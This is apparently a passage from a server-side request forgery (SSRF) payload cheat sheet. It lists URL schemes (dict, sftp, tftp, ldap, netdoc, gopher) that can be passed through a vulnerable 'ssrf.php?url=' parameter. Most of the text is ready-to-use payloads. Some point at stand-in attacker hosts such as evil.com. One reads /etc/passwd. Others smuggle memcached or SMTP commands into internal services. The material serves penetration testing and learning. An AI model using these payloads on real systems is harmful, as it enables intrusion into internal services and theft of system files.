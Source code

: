 ### Dict

The DICT URL scheme is used to refer to definitions or word lists available using the DICT protocol:

```powershell
dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>
ssrf.php?url=dict://attacker:11111/
```

### SFTP

A network protocol used for secure file transfer over secure shell

```powershell
ssrf.php?url=sftp://evil.com:11111/
```

### TFTP

Trivial File Transfer Protocol, works over UDP

```powershell
ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET
```

### LDAP

Lightweight Directory Access Protocol. It is an application protocol used over an IP network to manage and access the distributed directory information service.

```powershell
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
```

### Netdoc

Wrapper for Java when your payloads struggle with "`\n`" and "`\r`" characters.

```powershell
ssrf.php?url=netdoc:///etc/passwd
```

### Gopher

The `gopher://` protocol is a lightweight, text-based protocol that predates the modern World Wide Web. It was designed for distributing, searching, and retrieving documents over the Internet.

```ps1
gopher://[host]:[port]/[type][selector]
```

This scheme is very useful as it as be used to send data to TCP protocol.

```ps1
gopher://localhost:25/_MAIL%20FROM:<attacker@example.com>%0D%0A
```

Refer to the SSRF Advanced Exploitation to explore the `gopher://` protocol deeper.
